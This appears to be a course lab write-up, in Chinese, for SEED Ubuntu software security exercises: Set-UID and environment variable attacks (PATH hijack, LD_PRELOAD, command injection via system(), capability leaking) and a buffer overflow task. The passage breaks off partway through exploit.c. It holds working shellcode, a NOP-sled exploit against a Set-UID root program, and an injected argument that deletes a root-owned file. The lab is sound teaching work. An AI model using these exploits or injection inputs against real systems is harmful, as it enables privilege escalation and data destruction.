# CS 5293: Software Security Exercise

---

**运行环境：** SEED Ubuntu 20.04 VM  
**架构：** 32-bit x86（所有程序使用 `-m32` 编译）  
**目录结构：**
```
D:\auxiliary\
├── bufferoverflow\
│   ├── call_shellcode.c
│   ├── exploit.c
│   └── stack.c
├── return2libc\
│   ├── exploit.c
│   └── retlib.c
└── stringformat\
    └── server.c
```

---

## 目录
1. [Task 2: 环境变量与 Set-UID 程序](#task2)
   - 2.1 操作环境变量
   - 2.2 环境变量与 Set-UID 程序
   - 2.3 PATH 环境变量攻击
   - 2.4 LD_PRELOAD 环境变量
   - 2.5 system() vs execve()
   - 2.6 Capability Leaking
2. [Task 3: 缓冲区溢出攻击](#task3)
   - 3.1 初始化设置
   - 3.2 运行 Shellcode
   - 3.3 漏洞程序分析
   - 3.4 漏洞利用
   - 3.5 绕过 dash 防护
   - 3.6 绕过地址随机化
   - 3.7 StackGuard 保护
   - 3.8 不可执行栈保护
3. [Task 4: Return-to-libc 攻击](#task4)
   - 4.1 初始化设置
   - 4.3–4.5 漏洞利用
   - 4.6 地址随机化
   - 4.7 StackGuard
4. [Task 5: 格式化字符串漏洞](#task5)
   - 5.1 崩溃程序
   - 5.2 读取 secret[1]
   - 5.3 修改 secret[1]
   - 5.4 修改为指定值 80

---
<a id='task2'></a>
# Task 2: 环境变量与 Set-UID 程序

## 背景知识
环境变量是操作系统中动态命名的值，影响运行进程的行为。Set-UID 程序在运行时拥有所有者（通常是 root）的权限，因此如果攻击者能通过环境变量影响 Set-UID 程序的行为，就可能造成权限提升。

## Task 2.1 — 操作环境变量

### 目标
学习使用 `printenv`、`env`、`export`、`unset` 等命令操作环境变量。

### 操作步骤

**步骤 1：打印所有环境变量**
```bash
# 方法一：使用 printenv
printenv

# 方法二：使用 env
env

# 查看特定变量（如 PWD）
printenv PWD
env | grep PWD
```

> 结果：  


**步骤 2：设置自定义环境变量**

```bash
# 设置变量 foo
export foo='test string'

# 验证是否设置成功
printenv foo
# 预期输出：test string
```

> 

**步骤 3：取消环境变量**
```bash
# 取消变量 foo
unset foo

# 验证是否已取消（无输出表示成功）
printenv foo
```

> 


## Task 2.2 — 环境变量与 Set-UID 程序

### 目标
验证用户进程的环境变量是否被继承到 Set-UID 子进程中。

### 步骤 1：编写并编译打印环境变量的程序

创建文件 `setuidenv.c`：

```c
/* setuidenv.c */
#include <stdio.h>
#include <stdlib.h>
extern char **environ;
void main()
{
    int i = 0;
    while (environ[i] != NULL) {
        printf("%s\n", environ[i]);
        i++;
    }
}
```

### 步骤 2：编译并设置为 Set-UID 程序
```bash
gcc -o foo setuidenv.c
sudo chown root foo
sudo chmod 4755 foo
# 验证权限
ls -l foo
# 预期输出：-rwsr-xr-x 1 root ...
```

> 

### 步骤 3：在用户 shell 中设置环境变量并运行
```bash
# 记录并备份原始 PATH
echo $PATH
ORIGINAL_PATH=$PATH

# 设置三个环境变量
export PATH=$PATH:/tmp/mydir
export LD_LIBRARY_PATH=/tmp/mylibs
export MY_CUSTOM_VAR='hello_from_user'

# 运行 Set-UID 程序，并过滤检查这三个变量
./foo | grep -E 'LD_LIBRARY_PATH|MY_CUSTOM_VAR|PATH'
```

> 

### 预期结果与分析

| 环境变量 | 是否被子进程继承 | 原因 |
|---|---|---|
| `PATH` | 是 | PATH 不被安全机制过滤 |
| `LD_LIBRARY_PATH` | 否（或被修改） | 动态链接器出于安全原因忽略 Set-UID 程序的 LD_* 变量 |
| `MY_CUSTOM_VAR` | 是 | 自定义变量正常继承 |

**分析：** Linux 的动态链接器（ld.so）在检测到程序以 Set-UID 方式运行时，会忽略 `LD_LIBRARY_PATH`、`LD_PRELOAD` 等 `LD_*` 前缀的环境变量，这是一种安全保护措施，防止攻击者通过注入恶意动态库提权。

## Task 2.3 — PATH 环境变量与 Set-UID 程序

### 目标
通过修改 PATH，让 Set-UID root 程序执行我们自定义的 `ls` 命令，从而验证 `system()` 中相对路径调用的危险性。

### 步骤 1：将 /bin/sh 指向 zsh（绕过 dash 防护）
```bash
sudo ln -sf /bin/zsh /bin/sh
# 验证
ls -la /bin/sh
# 应显示：/bin/sh -> /bin/zsh
```

> 

### 步骤 2：创建漏洞程序 myls.c
```c
/* myls.c - 漏洞程序：使用相对路径调用 ls */
int main()
{
    system("ls");
    return 0;
}
```

编译并设置为 Set-UID root 程序：
```bash
gcc -o myls myls.c
sudo chown root myls
sudo chmod 4755 myls
ls -l myls
```

> 

### 步骤 3：创建恶意的自定义 ls 程序
```c
/* ls.c - 我们的恶意替换程序 */
#include <stdio.h>
#include <unistd.h>
int main()
{
    printf("\n[!] This is MY ls program - I hijacked the call!\n");
    printf("\nMy real uid is:      %d\n", getuid());
    printf("My effective uid is: %d\n", geteuid());
    return 0;
}
```

编译：
```bash
gcc -o ls ls.c
```

### 步骤 4：修改 PATH 并执行攻击
```bash
# 将当前目录加入 PATH 最前面
export PATH=.:$PATH

# 运行 Set-UID 程序
./myls
```

### 预期输出
```
[!] This is MY ls program - I hijacked the call!

My real uid is:      1000
My effective uid is: 0
```

> 

### 步骤 5：恢复环境
```bash
# 恢复原始 PATH
export PATH=$ORIGINAL_PATH
```

### 分析
- `euid=0` 说明代码以 root 有效权限运行
- 原因：`system("ls")` 会调用 `/bin/sh -c ls`，shell 从 PATH 中搜索 `ls`，由于我们将当前目录（含有恶意 `ls`）放在 PATH 最前面，shell 找到了我们的程序
- 修复方案：始终使用绝对路径，如 `system("/bin/ls")`

## Task 2.4 — LD_PRELOAD 环境变量与 Set-UID 程序

### 目标
理解 `LD_PRELOAD` 在不同场景（普通程序 vs Set-UID 程序）下的行为差异。

### 步骤 1：创建恶意动态库（重写 sleep 函数）

```c
/* mylib.c - 覆盖 libc 的 sleep() */
#include <stdio.h>
void sleep(int s)
{
    printf("[!] I am NOT sleeping! (LD_PRELOAD hijack)\n");
}
```

编译为共享库：
```bash
gcc -fPIC -g -c mylib.c
gcc -shared -o libmylib.so.1.0.1 mylib.o -lc
```

### 步骤 2：创建测试程序
```c
/* myprog.c */
int main()
{
    sleep(1);
    return 0;
}
```

编译：
```bash
gcc -o myprog myprog.c
```

### 步骤 3：设置 LD_PRELOAD
```bash
export LD_PRELOAD=./libmylib.so.1.0.1
```

### 步骤 4：四种场景测试

**场景 1：普通程序，普通用户运行**
```bash
# myprog 为普通程序（无 Set-UID）
chmod 755 myprog
./myprog
# 预期输出：[!] I am NOT sleeping! (LD_PRELOAD hijack)
# 结论：LD_PRELOAD 生效
```

> 

**场景 2：Set-UID root 程序，普通用户运行**
```bash
sudo chown root myprog
sudo chmod 4755 myprog
./myprog
# 预期输出：程序正常 sleep 1 秒，无提示（LD_PRELOAD 被忽略）
# 结论：动态链接器在 Set-UID 进程中忽略 LD_PRELOAD
```

> 

**场景 3：Set-UID root 程序，root 账户重新导出 LD_PRELOAD 后运行**
```bash
sudo su   # 切换到 root
export LD_PRELOAD=./libmylib.so.1.0.1
./myprog
# 预期输出：[!] I am NOT sleeping!
# 结论：root 用户的 LD_PRELOAD 会生效（real UID == effective UID == 0）
exit      # 退出 root
```

> 

**场景 4：Set-UID user1 程序，其他用户运行**
```bash
sudo chown user1 myprog
sudo chmod 4755 myprog
# 以当前非 root 非 user1 用户运行
export LD_PRELOAD=./libmylib.so.1.0.1
./myprog
# 预期输出：程序正常 sleep（LD_PRELOAD 被忽略）
# 结论：real UID != effective UID 时，LD_PRELOAD 被忽略
```

> 

### 结果对比表

| 场景 | real UID | effective UID | LD_PRELOAD 是否生效 |
|------|----------|---------------|--------------------|
| 1. 普通程序，普通用户 | 1000 | 1000 | ✅ 生效 |
| 2. Set-UID root，普通用户 | 1000 | 0 | ❌ 被忽略 |
| 3. Set-UID root，root 用户 | 0 | 0 | ✅ 生效 |
| 4. Set-UID user1，其他用户 | 1000 | user1_id | ❌ 被忽略 |

### 结论
当 `real UID ≠ effective UID` 时（即 Set-UID 提权场景），动态链接器会**自动清除** `LD_PRELOAD` 等所有 `LD_*` 变量，防止攻击者通过注入恶意库劫持特权程序。

## Task 2.5 — system() vs execve()

### 目标
理解为什么在特权程序中 `system()` 比 `execve()` 危险。

### 程序代码
```c
/* catfile.c */
#include <string.h>
#include <stdio.h>
#include <stdlib.h>
int main(int argc, char *argv[])
{
    char *v[3];
    char *command;
    if(argc < 2) {
        printf("Please type a file name.\n");
        return 1;
    }
    v[0] = "/bin/cat"; v[1] = argv[1]; v[2] = NULL;
    command = malloc(strlen(v[0]) + strlen(v[1]) + 2);
    sprintf(command, "%s %s", v[0], v[1]);

    // 版本 A：使用 system()（有漏洞）
    system(command);

    // 版本 B：使用 execve()（安全）
    // execve(v[0], v, NULL);

    return 0;
}
```

### 步骤 1：编译并设置为 Set-UID root
```bash
gcc -o catfile catfile.c
sudo chown root catfile
sudo chmod 4755 catfile
```

### 步骤 2：使用 system() 版本 — 攻击演示

**正常使用：**
```bash
./catfile /etc/passwd
# 可以读取 /etc/passwd（root 文件）
```

> 

**攻击 — 命令注入（删除/修改文件）：**
```bash
# 创建一个只有 root 能写的测试文件
sudo touch /tmp/root_only_file
sudo chmod 400 /tmp/root_only_file

# 注入命令：通过分号注入额外命令
./catfile "/etc/passwd; rm /tmp/root_only_file"
# 或者
./catfile "/etc/passwd; touch /tmp/pwned_by_bob"

# 验证文件被删除/创建
ls -la /tmp/pwned_by_bob
```

> 

**原理：** `system()` 实际执行：
```
/bin/sh -c "/bin/cat /etc/passwd; rm /tmp/root_only_file"
```
Shell 解析 `;` 作为命令分隔符，因此两个命令都以 root 权限执行。

### 步骤 3：使用 execve() 版本 — 攻击失效

修改 `catfile.c`，注释掉 `system()` 行，取消注释 `execve()` 行，重新编译：

> 

```bash
# 修改后重新编译
gcc -o catfile catfile.c
sudo chown root catfile
sudo chmod 4755 catfile

# 同样的攻击输入
./catfile "/etc/passwd; touch /tmp/pwned_v2"

# 结果：/bin/cat 会尝试打开名为 "/etc/passwd; touch /tmp/pwned_v2" 的文件
# 该文件不存在，报错：No such file or directory
ls /tmp/pwned_v2  # 文件不存在
```

> 

### 安全对比

| | system() | execve() |
|---|---|---|
| 调用机制 | 通过 `/bin/sh -c` | 直接替换进程映像 |
| 参数是否解析 | Shell 解析特殊字符（`;`, `|`, `&&`） | 参数按原样传递，不经 shell |
| 命令注入风险 | ✅ 存在 | ❌ 不存在 |
| PATH 影响 | ✅ 受 PATH 影响 | 需要绝对路径（通常更安全）|

## Task 2.6 — Capability Leaking

### 目标
理解 Set-UID 程序在调用 `setuid()` 放弃 root 权限后，已打开的文件描述符（capabilities）仍可能被滥用。

### 步骤 1：创建受保护的系统文件
```bash
# 创建 /etc/zzz 并设置为只有 root 可写
sudo touch /etc/zzz
sudo chown root /etc/zzz
sudo chmod 0644 /etc/zzz
# 验证
ls -la /etc/zzz
# -rw-r--r-- 1 root root 0 ... /etc/zzz
```

> 

### 步骤 2：编写并编译程序
```c
/* cap_leak.c */
#include <stdio.h>
#include <stdlib.h>
#include <fcntl.h>
#include <unistd.h>

void main(){
    int fd;
    /* 以 root 权限打开文件（此时 euid=0）*/
    fd = open("/etc/zzz", O_RDWR | O_APPEND);
    if (fd == -1) {
        printf("Cannot open /etc/zzz\n");
        exit(0);
    }
    printf("[+] File /etc/zzz opened successfully (fd=%d)\n", fd);

    sleep(1);  /* 模拟执行其他任务 */

    /* 永久放弃 root 权限 */
    setuid(getuid());
    printf("[+] Dropped root privilege. euid is now: %d\n", geteuid());

    if (fork()) {  /* 父进程 */
        close(fd);
        exit(0);
    } else {  /* 子进程 - 模拟被攻击者控制 */
        printf("[!] Child process writing to /etc/zzz...\n");
        write(fd, "Malicious Data\n", 15);
        close(fd);
    }
}
```

```bash
gcc -o cap_leak cap_leak.c
sudo chown root cap_leak
sudo chmod 4755 cap_leak
```

### 步骤 3：以普通用户身份运行
```bash
# 先查看 /etc/zzz 当前内容
cat /etc/zzz

# 以普通用户运行（非 root）
whoami   # 确认非 root
./cap_leak

# 运行后查看 /etc/zzz
cat /etc/zzz
```

> 

### 预期输出
```
[+] File /etc/zzz opened successfully (fd=3)
[+] Dropped root privilege. euid is now: 1000
[!] Child process writing to /etc/zzz...
```
```bash
cat /etc/zzz
# Malicious Data
```

### 关键分析

**为什么文件被修改？**

1. **打开阶段（euid=0）：** 程序以 root 有效 UID 运行，可以打开任何文件，`open()` 返回文件描述符 `fd`
2. **放弃权限：** `setuid(getuid())` 将所有 UID 降为普通用户
3. **关键问题：** `setuid()` **不会关闭** 已经打开的文件描述符！`fd` 仍然有效
4. **子进程：** fork 的子进程继承了 `fd`，即使 euid 已经降权，`write(fd, ...)` 仍然成功

**这就是 Capability Leaking：** 程序放弃了权限，但泄漏了通过特权获得的能力（文件描述符）

---
<a id='task3'></a>
# Task 3: 缓冲区溢出攻击

## 背景知识
缓冲区溢出发生在程序向固定长度缓冲区写入超过其大小的数据时。由于栈上数据区（缓冲区）和控制区（返回地址）相邻，溢出可以覆盖返回地址，从而劫持程序控制流。

## Task 3.1 — 初始化设置

### 禁用所有安全防护（为攻击创造条件）

```bash
# 1. 关闭地址随机化（ASLR）
sudo sysctl -w kernel.randomize_va_space=0
# 验证
cat /proc/sys/kernel/randomize_va_space

# 2. 将 /bin/sh 指向 zsh（绕过 dash 的 Set-UID 防护）
sudo ln -sf /bin/zsh /bin/sh
# 验证
ls -la /bin/sh
```

> 1.   
> 2. 

### 选择 BUFSIZE
本实验选择 **BUFSIZE=24**

## Task 3.2 — 运行 Shellcode

### 理解 Shellcode
Shellcode 是用于启动 shell 的机器码，是 `execve("/bin/sh", ["/bin/sh", NULL], NULL)` 的汇编实现。

### 使用的文件
使用 `auxiliary/bufferoverflow/call_shellcode.c`。

### 编译并运行
```bash
cd ~/auxiliary/bufferoverflow

# 编译（启用可执行栈）
gcc -m32 -z execstack -o call_shellcode call_shellcode.c

# 运行
./call_shellcode
```

### 预期输出
```
$ ./call_shellcode
$ whoami
yufish
$ exit
```
程序成功启动了一个新的 shell。

> 

### Shellcode 逐行分析

| 行 | 机器码 | 汇编指令 | 作用 |
|---|---|---|---|
| 1 | `\x31\xc0` | `xorl %eax, %eax` | 将 eax 清零（避免 null 字节）|
| 2 | `\x50` | `pushl %eax` | 压入 0（字符串终止符）|
| 3 | `\x68//sh` | `pushl $0x68732f2f` | 压入 `//sh`（`//` 等价于 `/`）|
| 4 | `\x68/bin` | `pushl $0x6e69622f` | 压入 `/bin` |
| 5 | `\x89\xe3` | `movl %esp, %ebx` | ebx = `/bin//sh` 地址 |
| 6 | `\x50` | `pushl %eax` | 压入 NULL |
| 7 | `\x53` | `pushl %ebx` | 压入字符串地址 |
| 8 | `\x89\xe1` | `movl %esp, %ecx` | ecx = argv 数组地址 |
| 9 | `\x99` | `cdq` | edx = 0（符号扩展 eax=0）|
| 10 | `\xb0\x0b` | `movb $0x0b, %al` | al = 11（execve 系统调用号）|
| 11 | `\xcd\x80` | `int $0x80` | 触发系统调用 |

最终效果等价于 C 代码：
```c
char *name[2] = {"/bin//sh", NULL};
execve("/bin//sh", name, NULL);
```

## Task 3.3 — 漏洞程序分析

### 程序代码（auxiliary/bufferoverflow/stack.c）
```c
/* stack.c */
/* This program has a buffer overflow vulnerability. */
/* Our task is to exploit this vulnerability */
#include <stdlib.h>
#include <stdio.h>
#include <string.h>

int bof(char *str)
{
    char buffer[24];

    /* The following statement has a buffer overflow problem */ 
    strcpy(buffer, str);

    return 1;
}

int main(int argc, char **argv)
{
    char str[517];
    FILE *badfile;
    badfile = fopen("badfile", "r");
    fread(str, sizeof(char), 517, badfile);
    bof(str);

    printf("Returned Properly\n");
    return 1;
}
```


### 编译并设置为 Set-UID root
```bash
cd ~/auxiliary/bufferoverflow

# 使用 BUFSIZE=24 编译
gcc -m32 -DBUFSIZE=24 -o stack -z execstack -fno-stack-protector stack.c
sudo chown root stack
sudo chmod 4755 stack
ls -l stack
# -rwsr-xr-x 1 root ...
```

> 

### 使用 gdb 分析栈布局
```bash
# 编译调试版本（不设置 Set-UID，用于调试）
gcc -m32 -DBUFSIZE=24 -g -o stack_dbg -z execstack -fno-stack-protector stack.c

# 创建一个空的 badfile（gdb 运行时需要）
touch badfile

# 启动 gdb
gdb -q stack_dbg
```

在 gdb 中执行以下命令：

```
(gdb) break bof
(gdb) run
(gdb) next          # 执行到 strcpy 之前
(gdb) print &buffer
(gdb) info frame
# 查看当前栈帧信息，找到 saved eip（返回地址）位置
(gdb) x/20x $esp
# 查看栈内存内容
(gdb) quit
```

> 

### 栈布局示意图
```
高地址
+------------------+
|  main() 的参数   |
+------------------+
|  返回地址 (RA)   |  ← 攻击目标：覆盖为 shellcode 地址
+------------------+
|  保存的 ebp      |  ← 4 字节
+------------------+
|  buffer[23]      |
|  buffer[22]      |
|  ...             |  ← BUFSIZE = 24 字节
|  buffer[0]       |
+------------------+
低地址

从 buffer[0] 到返回地址 = BUFSIZE + 4（saved ebp）= 24 + 4 = 28 字节
```

## Task 3.4 — 漏洞利用

### 核心思路
1. 用 NOP sled（`0x90`）填充缓冲区
2. 在末尾放置 shellcode
3. 在偏移量 `offset` 处覆盖返回地址，指向 NOP sled 中的某个位置

### 步骤 1：通过 gdb 确定关键地址

```bash
gdb -q stack_dbg
```

```
(gdb) break bof
(gdb) run
(gdb) next
(gdb) print &buffer
(gdb) print $ebp
(gdb) quit
```

> 

**计算关键偏移量：**
- `buffer` 地址：`0xffffcb98`（示例值，实际运行时获取）
- `ebp` 地址：`0xffffcbb8`
- offset（从 buffer 起始到返回地址）= `(ebp - buffer) + 4` = `(0xffffcbb8 - 0xffffcb98) + 4` = `36`
- 将 shellcode 放在 buffer 末尾，ret 地址 = buffer 地址 + 某个 NOP 区域偏移y

### 步骤 2：完整的 exploit.c

以下是需要填写的完整 `exploit.c`：

```c
/* exploit.c — 完整版 */
#include <stdlib.h>
#include <stdio.h>
#include <string.h>

char shellcode[] =
    "\x31\xc0"             /* xorl    %eax,%eax              */
    "\x50"                 /* pushl   %eax                   */
    "\x68""//sh"           /* pushl   $0x68732f2f            */
    "\x68""/bin"           /* pushl   $0x6e69622f            */
    "\x89\xe3"             /* movl    %esp,%ebx              */
    "\x50"                 /* pushl   %eax                   */
    "\x53"                 /* pushl   %ebx                   */
    "\x89\xe1"             /* movl    %esp,%ecx              */
    "\x99"                 /* cdq                            */
    "\xb0\x0b"             /* movb    $0x0b,%al              */
    "\xcd\x80"             /* int     $0x80                  */
;

void main(int argc, char **argv)
{
    char buffer[517];
    FILE *badfile;

    /* 用 NOP 指令（0x90）填充整个 buffer */
    memset(&buffer, 0x90, 517);

    long ret    = 0xffffcb98 + 200;  // buffer地址 + NOP区偏移
    int  offset = 36;                 // buffer起始到返回地址的字节数

